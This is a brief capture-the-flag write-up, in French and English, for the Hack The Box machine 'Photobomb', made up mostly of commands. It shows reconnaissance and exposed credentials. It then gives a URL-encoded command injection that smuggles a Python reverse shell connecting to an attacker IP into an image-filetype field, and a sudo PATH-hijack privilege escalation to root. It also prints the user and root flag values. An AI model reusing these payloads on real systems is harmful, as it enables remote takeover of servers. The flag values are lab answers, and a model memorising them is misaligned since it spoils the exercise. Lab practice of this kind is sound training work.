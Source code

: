 # Photobomb

[Link](https://app.hackthebox.com/machines/Photobomb)
[Spoiler](https://www.youtube.com/watch?v=aRhS3onyzZ8)

Goal: Use Burp Suite to intercept and redirect package


## Commands


```bash

%% 1. nmap sur le ip address 
nmap -sC -sV 

%% 2. Ajouter le ipadress dans le ip
vi /etc/hosts > <IP> photobomb.htb

%% 3. Regarder le fichier js pour obtenir les credentials (inspect page)
python3 dirsearch.py -e js -u https://photobomb.htb
http://pH0t0:b0Mb!@photobomb.htb/printer

5. create redirect useing reverse shell and url encoder
ifconfig % tun0: 10.10.15.27
nc -lvpn 12345

photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.15.27%22%2C12345%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27&dimensions=3000x2000

%% user.txt: 
cb6c0339e8762261cb16b77175078cbf

6. find flag by acceding to root
sudo -l
cd /opt/
./cleanup.sh
cd /tmp/
echo "/bin/bash -p" > find
chmod +x find
sudo PATH=/tmp:$PATH find
sudo PATH=/tmp:$PATH /opt/cleanup.sh
cd /root

%% root.txt
475765b89ceab23b31295269fa87ff79


```

# To remember

- [X] when performing nmap, if we see 'unrecognize url', add it to /etc/hosts
- [X] check js to see any redirection possible. If script accept */*; we can 
      add reverse shell script at the end




## Ressources

- https://www.revshells.com/
- https://www.urlencoder.org/



